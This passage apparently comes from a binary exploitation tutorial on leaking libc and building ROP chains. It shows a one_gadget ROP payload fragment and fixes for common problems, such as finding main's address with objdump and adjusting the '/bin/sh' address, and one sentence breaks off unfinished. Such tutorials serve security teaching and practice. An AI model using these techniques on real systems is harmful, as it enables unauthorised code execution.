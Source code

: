 ```python
ONE_GADGET = libc.address + 0x4526a
rop2 = base + p64(ONE_GADGET) + "\x00"*100
```

## EXPLOIT FILE

You can find a template to exploit this vulnerability here:

{% content-ref url="rop-leaking-libc-template.md" %}
[rop-leaking-libc-template.md](rop-leaking-libc-template.md)
{% endcontent-ref %}

## Common problems

### MAIN_PLT = elf.symbols\['main'] not found

If the "main" symbol does not exist. Then you can just where is the main code:

```python
objdump -d vuln_binary | grep "\.text"
Disassembly of section .text:
0000000000401080 <.text>:
```

and set the address manually:

```python
MAIN_PLT = 0x401080
```

### Puts not found

If the binary is not using Puts you should check if it is using

### `sh: 1: %s%s%s%s%s%s%s%s: not found`

If you find this **error **after creating **all **the exploit: `sh: 1: %s%s%s%s%s%s%s%s: not found`

Try to **subtract 64 bytes to the address of "/bin/sh"**:

```python
BINSH = next(libc.search("/bin/sh")) - 64
```
